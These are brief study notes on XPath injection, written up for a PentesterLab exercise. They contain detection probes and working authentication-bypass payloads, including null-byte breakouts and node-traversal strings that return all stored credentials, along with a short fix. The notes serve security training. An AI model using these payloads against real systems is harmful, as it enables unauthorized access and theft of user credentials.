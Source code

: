 #### 1.1. About

- similar attack to SQL injection (PHP warning: `SimpleXMLElement::xpath()`)
- SQL injection payloads could be used for detection
- to fix use a parameterized XPath interface or perform input validation (replace `'` with `&apos;`)


#### 1.2. LAB
```
https://pentesterlab.com/exercises/xml_02/course
http://ptl-cbe1cc58-d2ba8d94.libcurl.so
```


#### 1.3. Original request
```
GET /?name=test&password=pass HTTP/1.1
Host: ptl-daa08d37-1adc53b7.libcurl.so
Connection: close
```


#### 1.4. Burp scan
```
?name=x'+or+false()+or+''='o&password=pass
?name=xxx'+or+true()+or+''='o&password=pass
?name=xxx&password=x'+or+true()+or+''='o
?name=xxx&password=x'+or+false()+or+''='o
```
Note: both `name` and `password` parameters are injectable


#### 1.5. Authentication bypass

Method 1:
```
?name=admin&password=x'+or+true()+or+''='x
?name=admin&password=x'+or+''='
```

Method 2:
```
?name=admin']%00&password=pass         (break out of the original XPath query)
?name=admin'+or+1=1]%00&password=pass  (return all users)
?name=admin'+or+1=1]/parent::*/child::node()%00&password=pass (get the child node)
?name=admin'+or+1=1]/parent::*/child::node()%00&password=pass (get user credentials)
?name='+or+1=1]/parent::*/child::node()%00&password=pass      (get all credentials)
```

